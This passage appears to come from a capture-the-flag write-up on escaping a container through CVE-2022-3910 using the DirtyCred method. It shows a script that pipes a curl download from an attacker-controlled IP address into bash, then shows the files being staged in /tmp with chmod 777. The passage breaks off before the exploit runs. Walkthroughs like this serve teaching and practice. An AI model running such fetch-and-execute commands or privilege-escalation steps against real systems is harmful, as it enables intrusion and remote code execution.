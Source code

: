 Since we have identified that the application is vulnerable to  CVE-2022-3910, let’s further investigate this specific vulnerability to  understand its impact and possible exploitation methods.

![img](assets/google.png)

We discovered [this blog post](https://starlabs.sg/blog/2023/07-a-new-method-for-container-escape-using-file-based-dirtycred/) that outlines a method for escaping a container using the DirtyCred exploit. Let's use the guidance from this blog to attempt the exploit, especially since the blog provides the necessary exploit code.

We'll start by compiling the exploit and creating a script named `a.sh` as detailed in the blog. This step is crucial for preparing the exploit to run on the container.



This will be the content of `a.sh`

```bash
#!/bin/bash
/bin/bash -c 'curl http://10.10.14.36/shell.sh | bash'
```

We've transferred both the `exploit` binary and the `a.sh` script to the `/tmp` directory on the container.

Next, we'll make both files executable with the following commands:

```bash
chmod 777 exploit
chmod 777 a.sh
```

After setting the appropriate permissions, we execute the exploit:
